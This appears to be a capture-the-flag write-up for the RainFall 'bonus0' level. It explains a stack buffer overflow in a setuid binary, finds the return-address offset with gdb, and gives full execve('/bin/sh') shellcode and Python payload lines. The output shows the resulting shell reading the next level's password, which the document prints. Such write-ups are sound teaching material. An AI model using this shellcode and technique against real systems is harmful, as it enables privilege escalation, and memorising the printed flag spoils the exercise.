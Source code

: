 <p align="justify">

Bonus0 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

Bonus0 rights:
```Shell
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```

Testing the binary:
```Shell
bonus0@RainFall:~$ ./bonus0
 - 
test
 - 
truc
test truc
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- the code uses `strcpy()`and `strncpy()`, which we can exploit for a buffer overflow
- the resulting string is of size ARG1 + ARG2 + ONE-SPACE + ARG2
- the buffer in `main()`has a size of [42]
While testing the binary, we also realise that:
- arg1 will accept a maximum of 19b and add a `\0`at the end of the string (with `strcpy()`), so if you give it 20 bytes it will continue reading past 20
- the buffers of arg1 and arg2 sit next to each other

We can therefore write a shellcode as a first argument, however ours is 21b. So we can write the first 20 bytes, and start the second argument with 1 byte.

Next, we must find `EIP` to overwrite it. We know that the buffer is [42], so let's try to overflow it with a pattern of 20 bytes and 19 bytes. 20 is the maximum you can give to ARG1, and 19 is the maximum for ARG2 in order to null-terminate the string. If you don't null-terminate your string, `strcpy()` will read further in memory and add an unpredictable number of characters into the buffer, resulting in an unreliable number to base your offset on. The size of what we are sending will be 20 + 19 + 19 = 58 because ARG2 is copied twice.

```Shell
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa //20bytes
 - 
Aa0Aa1Aa2Aa3Aa4Aa5A //19bytes
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5A Aa0Aa1Aa2Aa3Aa4Aa5A

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
```
This gives us 14. When you take 20(ARG1) + 19(ARG2) + 1(the space added) + 14(ARG2-SEGFAULT), you get an offset of 54.

Now we need the address of the start of the buffer (in which we stored our shellcode):
```Shell
bonus0@RainFall:~$ ltrace ./bonus0
[...]
strcpy(0xbffff736, "") = 0xbffff736
[...]
```
`ltrace` shows us that the first arg of `strcpy()` is the destination at which our input will be copied. It is therefore the address of our buffer!

These entire 54 bytes will be padded with:
- the shellcode
- `A`s for pure padding
- the address of the buffer
However, we must take into account the fact that the added space shifts our input by 1 byte. So we must take 1 byte out of the padding and put it at the end of our payload in order to make sure the address overwrites `EIP` correctly.

Finally, our two arguments will be:
- $(python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd")')
- $(python -c 'print("\x80" + "A" * 13  + "\xbf\xff\xf7\x36"[::-1] + "A")')

And the result is:
```Shell
level2@RainFall:~$ (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd")'; python -c 'print("\x80" + "A" * 13  + "\xbf\xff\xf7\x36"[::-1] + "A")'; cat -) | ./bonus0
 - 
 - 
1���
    Qh//shh/bin��̀AAAAAAAAAAAAA6���A �AAAAAAAAAAAAA6���A
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
</p>